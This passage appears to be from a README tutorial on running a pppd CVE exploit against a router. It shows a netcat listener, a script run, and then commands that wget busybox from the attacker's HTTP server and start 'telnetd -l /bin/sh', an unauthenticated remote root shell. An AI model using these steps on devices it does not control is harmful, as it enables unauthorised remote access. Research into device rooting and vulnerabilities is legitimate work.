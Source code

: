 <p align="center">
    <img height="auto" width="auto" src="images/8.png" />
</p>

Requests should now appear in your PPPoE terminal window:

<p align="center">
    <img height="auto" width="auto" src="images/9.png" />
</p>

Also your web browser should now display this instead of a loading spinner:

<p align="center">
    <img height="auto" width="auto" src="images/10.png" />
</p>

### 7. Running the exploit

Open up two new terminal sessions.

Start an HTTP server where we can `wget` the files from later. **Make sure to be in the folder that contains the repo files**.

```sh
python3 -m http.server 80
```

Start the `netcat` network utility.

```sh
netcat -nvlp 31337
```

<p align="center">
    <img height="auto" width="auto" src="images/11.png" />
</p>

Run `pppd-cve.py` in a new terminal session:

```sh
python3 pppd-cve.py
```

<p align="center">
    <img height="auto" width="auto" src="images/12.png" />
</p>

When the packet has been sent successfully, you should be able to see a connection from `192.168.31.1:63627` in your `netcat` session.

This connection can be unstable and you may need to rerun `netcat` and `pppd-cve.py` if it drops.

If you do the following commands quickly, there should be no issues:

```sh
cd /tmp
wget http://192.168.31.177/busybox
chmod a+x ./busybox
./busybox telnetd -l /bin/sh
```
